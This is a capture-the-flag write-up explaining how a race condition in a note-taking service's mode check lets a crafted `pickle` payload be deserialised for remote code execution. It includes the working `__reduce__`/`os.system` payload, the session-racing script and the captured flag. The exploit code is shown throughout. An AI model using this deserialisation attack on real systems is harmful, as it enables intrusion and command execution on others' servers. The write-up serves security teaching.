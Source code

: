 # Challenge `Pickles in a seri(al)ous race` Writeup

- Vulnerability: 
  - Time-of-check Time-of-use / Race condition and Remote Code Execution
- Where:
  - `check_mode` function and `pickle.dump` function
- Impact:
  - allows remote code execution in the server

## Analyzing the server

This challenge consists in accessing a file inside the server running the script.
The script allows users to create users and create or read files. 
An important concept is that files can be created in either CLASSY or FREE mode and can only be read in the same mode, otherwise the file is deleted.
The CLASSY mode uses `pickle` to serialize and deserialize the content of the files, while the FREE mode stores information using plain text. 
The `pickle` library is known to be vulnerable to remote code execution, [source](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). 

## Exploit

Since the `pickle.dump` function is exploitable, the first step is to create a malicious payload to steal the flag.
```python
class FlagGrabber:
    def __reduce__(self):
        cmd = ('cat /home/ctf/flag')
        return os.system, (cmd,)

pickled = pickle.dumps(FlagGrabber())
```
From the source cited above, we can see that the `__reduce__` function is called when the object is deserialized and leads to the execution of `cmd` in the server.  
The problem is that the script in `CLASSY_MODE` doesn't serialize the user input but the `Note` object
```python
note = pickle.loads(note_content)
print(note)
(...)
note = Note(note_name, note_content)
with open(note_path, 'wb') as f:
    pickle.dump(note, f)
```
Therefore, the payload must be written to the file using the `FREE_MODE`.
To be able to write with `FREE_MODE` and later read with `CLASSY_MODE`, it's necessary to exploit a race condition in the verification of the user mode choice.
```python
if not check_mode(FREE_MODE):
    reset(FREE_MODE)
```
First create two sessions (`free` and `classy`) with the same user.
Then, in the `free` session, enter the `FREE_MODE` and in the `classy` enter the `CLASSY_MODE`.
```python
classy.recvuntil(b'Username: ')
classy.send(b'diogo\n')

free.recvuntil(b'Username: ')
free.send(b'diogo\n')

classy.recvuntil(b'>>> ')
classy.send(b'0\n')

free.recvuntil(b'>>> ')
free.send(b'1\n')
```
Since the `check_mode` is verified at the beginning, it's now possible to write the payload to a `FREE_MODE` file and then read it with the `CLASSY_MODE` without it being erased.
```python
free.recvuntil(b'note_name: ')
free.send(b'payload2\n')
free.recvuntil(b'note_content: ')
free.sendline(pickled)
free.sendline()
sleep(1)

classy.send(b'0\n')
classy.recvuntil(b'note_name: ')
classy.send(b'payload\n')
print(classy.recvuntil(b'}').decode("UTF-8"))
```
The sleep is necessary to give the server time to create the file.
This outputs the flag `SSof{Pickles_RCE_Th1s_was_an_easy_race}`


## Implementation

These code snippets and full implementation can be found [here](pickles_in_a_seri(al)ous_race.py).
